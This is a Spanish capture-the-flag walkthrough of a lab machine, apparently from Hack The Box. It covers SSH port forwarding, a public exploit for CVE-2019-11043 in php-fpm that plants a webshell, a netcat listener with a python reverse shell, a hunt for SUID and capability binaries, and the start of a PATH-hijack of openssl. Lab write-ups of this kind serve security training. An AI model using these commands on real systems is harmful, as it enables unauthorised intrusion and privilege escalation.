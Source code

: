 ```bash
ping -c 1 192.168.254.3
wget -qO- http://192.168.254.3
```

Local port forwarding por **ssh**.

```bash
ssh -i id_rsa www-data@10.10.10.246 -p 2222 -L 80:192.168.254.3:80
```

# 192.168.254.3
## http
En el servicio http, vemos una respuesta rara en un index.php
Fuzzeamos el servicio con herramientas como [wfuzz](/wfuzz/) o [gobuster](/gobuster/) en busca de directorios y de archivos con extensión php.
En las cabeceras de respuesta vemos que utiliza "php-fpm/7.1" buscamos en google "php-fpm/7.1 exploit github". Y encontramos un exploit.

> [GitHub Exploit](https://github.com/theMiddleBlue/CVE-2019-11043)

```bash
python exploit.py --url http://127.0.0.1/index.php --verbose
```

> Nos sube una webShell

Comprobamos si tenemos traza con mediante un ping. Pero no. Aunque la 192.168.254.2 si que responde.

Podemos enviarnos una reverse shell desde la "192.168.254.3" a la "192.168.254.2". Para ello necesitamos subir un binario estático de **nc**.

```bash
wget https://github.com/yunchih/static-binaries/raw/master/nc
scp -P 2222 -i id_rsa nc www-data@10.10.10.246:/tmp/nc

chmod +x ./nc
nc -nlvp 4646
```

Y nos enviamos una reverse shell con **python3** ya que está instalado en la "192.168.254.3"

## OS
```bash
find \-perm -4000 2>/dev/null
getcap -r / 2>/dev/null
```

> ersatool tiene capability para cambiar el UID

Subimos un binario **pspy** para monitorizar tareas que se ejecuten en segundo plano.
Vemos que cuando utilizamos el **ersatool**, pòr detrás se ejecuta el **openssl** de forma relativa. Podemos hacer un "path hijacking".

```bash
cd /tmp
touch openssl
chmod +x openssl
```
